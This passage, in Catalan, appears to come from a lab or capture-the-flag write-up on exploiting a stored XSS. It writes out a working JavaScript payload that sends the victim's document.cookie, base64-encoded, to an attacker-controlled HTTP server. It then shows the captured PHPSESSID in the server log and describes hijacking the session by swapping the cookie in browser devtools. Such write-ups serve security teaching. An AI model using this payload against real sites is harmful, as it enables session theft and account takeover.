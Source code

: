 Com que el Store XSS va fent peticions al nostre servei http buscant el fitxer `script.js`, només haurem de modificar aquest fitxer per executar codi javascript al navegador de la víctima.

Executem el següent codi per crear el fitxer `script.js` a la mateixa carpeta que està compartint el nostre servei web.

```bash
$ echo 'x=new XMLHttpRequest;x.open("GET","http://[IP-atacante]?cookie="+btoa(document.cookie));x.send();' > script.js
```

Al meu cas:

```bash
$ echo 'x=new XMLHttpRequest;x.open("GET","http://192.168.1.181?cookie="+btoa(document.cookie));x.send();' > script.js
```

I rebem la cookie d’un usuari en format base64 al nostre servei web.

```bash
192.168.1.117 - - [21/Mar/2025 23:46:44] "GET /script.js HTTP/1.1" 304 -
192.168.1.117 - - [21/Mar/2025 23:46:44] "GET /?cookie=UEhQU0VTU0lEPXNkM3EzZWVnMHY3Y2wzcGhpbTVyMjFpcWFo HTTP/1.1" 200 -
```

Descodifiquem el base64 de la cookie i veiem que és la mateixa cookie que es va crear en iniciar sessió amb el nostre usuari, però amb un altre valor.

```bash
$ echo UEhQU0VTU0lEPXNkM3EzZWVnMHY3Y2wzcGhpbTVyMjFpcWFo | base64 -d
PHPSESSID=sd3q3eeg0v7cl3phim5r21iqah  
```

Iniciem sessió al navegador amb el primer usuari de prova que vam crear (si cal, en creem un altre des del formulari de registre). Un cop hem iniciat sessió, des de les eines de desenvolupador del navegador, a la pestanya `Storage > Cookies`, modifiquem el valor de la cookie de sessió `PHPSESSID` pel rebut al nostre servei web i després actualitzem la pàgina.
